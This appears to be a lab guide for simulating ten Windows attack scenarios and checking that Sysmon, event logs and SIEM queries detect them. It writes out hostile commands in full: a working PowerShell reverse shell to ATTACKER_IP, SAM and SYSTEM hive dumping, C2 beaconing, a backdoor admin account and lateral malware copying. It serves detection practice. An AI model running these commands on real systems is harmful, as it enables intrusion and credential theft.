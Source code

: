 # Phase 2 Simulation: Logging & Detection Guide

This document provides a step-by-step guide for simulating all Phase 2 attack scenarios, complete with logging and detection analysis. Use this as a reference for both executing simulations and verifying that logs and SIEM detections are working correctly.

---

## Preparation

### Lab Setup

- **Windows 10/11 VM** (Victim)
- **Kali Linux VM** (Attacker)
- **SIEM** (Wazuh/ELK recommended)
- **Sysmon** + **Winlogbeat** configured on Windows

---

## Simulation Scenarios

### 🔍 1. Suspicious Archive Downloads

**On Windows VM:**
```powershell
Invoke-WebRequest -Uri "http://example.com/suspicious.zip" -OutFile "$env:USERPROFILE\Downloads\malware.zip" -UserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0"
```

**Check Logs:**
- **Winlogbeat**: HTTP requests with `.zip`/`.rar`
- **Sysmon Event ID 11**: FileCreate

---

### 🔍 2. Malicious PowerShell

**Encode & Execute:**
```powershell
$cmd = "Start-Process calc.exe"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encoded = [Convert]::ToBase64String($bytes)
powershell -enc $encoded
```

**Check:**
- **Sysmon Event ID 1**: (Parent: winword.exe if from Office)
- **PowerShell Event ID 4104**: Script block logging

---

### 🔍 3. Credential Dumping

**Simulate Mimikatz-like Activity:**
```powershell
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
```

**Check:**
- **Event ID 4657**: Registry access
- **Sysmon Event ID 1**: reg.exe execution

---

### 🔍 4. C2 Beaconing

**Scheduled Beacon:**
```powershell
while($true) {
    Invoke-WebRequest -Uri "http://malicious-domain.com/checkin" -UseBasicParsing
    Start-Sleep -Seconds 300
}
```

**Detection:**
- **Firewall logs**: Outbound to external IPs
- **Zeek/Wireshark**: Regular HTTP intervals

---

### 🔍 5. Privilege Escalation

**Create User & Add to Admin:**
```powershell
net user attacker P@ssw0rd! /add
net localgroup administrators attacker /add
```

**Logs:**
- **Event ID 4720**: User added
- **Event ID 4732**: Added to admin group

---

### 🔍 6. RDP Access

**From Kali:**
```bash
xfreerdp /v:Windows_VM_IP /u:attacker /p:P@ssw0rd!
```

**Logs:**
- **Event ID 4624**: Logon Type 10 (RDP)
- **Event ID 4625**: Failed login

---

### 🔍 7. Vulnerability Scan

**On Kali:**
```bash
nmap -sS -T4 Windows_VM_IP
```

**Detection:**
- **Firewall/IDS alerts**
- **Event ID 5157**: Windows Filtering Platform

---

### 🔍 8. Lateral Movement

**From one Windows VM to another:**
```powershell
copy C:\malware.exe \\TARGET_VM\C$\temp\
```

**Logs:**
- **Event ID 5145**: Network share access
- **Sysmon Event ID 3**: Network connection

---

### 🔍 9. Malicious Archive

**Create password-protected ZIP (Kali):**
```bash
zip -P infected malware.zip malware.exe
```

**Execute on Windows:**
```powershell
powershell -c "Expand-Archive -Path malware.zip -DestinationPath C:\temp"
```

**Logs:**
- **AV detection events**
- **Sysmon Event ID 1**: Archive execution

---

### 🔍 10. Reverse Shell

**On Windows (Victim):**
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**On Kali (Attacker):**
```bash
nc -lvnp 4444
```

**Detection:**
- **Abnormal parent-child** (e.g., explorer.exe → powershell.exe)
- **Event ID 3**: Outbound connection

---

## Detection Analysis Table

| Hint | Key Logs/Events            | SIEM Query Example                                                   |
|------|--------------------------- |---------------------------------------------------------------------|
| 1    | Winlogbeat HTTP logs       | `event.dataset:"http" AND url.path:"*.zip"`                         |
| 2    | Event ID 4104              | `powershell.event_id:4104 AND message:"*encodedcommand*"`           |
| 3    | Event ID 4657              | `event.code:4657 AND registry.key_path:"HKLM\\SAM"`                 |
| 4    | Firewall logs              | `destination.ip:"malicious-domain.com" AND event.action:"connection_attempt"` |
| 5    | Event ID 4732              | `winlog.event_id:4732 AND user.name:"attacker"`                     |
| 6    | Event ID 4624              | `winlog.event_id:4624 AND logon.type:10`                            |
| 7    | IDS alerts                 | `event.type:"alert" AND tags:"nmap"`                                |
| 8    | Event ID 5145              | `winlog.event_id:5145 AND file.name:"malware.exe"`                  |
| 9    | AV logs                    | `event.module:"antivirus" AND file.extension:"zip"`                 |
| 10   | Netflow data               | `destination.port:4444 AND process.name:"powershell.exe"`           |

---

## Usage

- Place all simulation logs and detection screenshots in this `logs/` directory.
- Use the table above to verify detection for each scenario.
- Document any anomalies or false negatives for review.

---
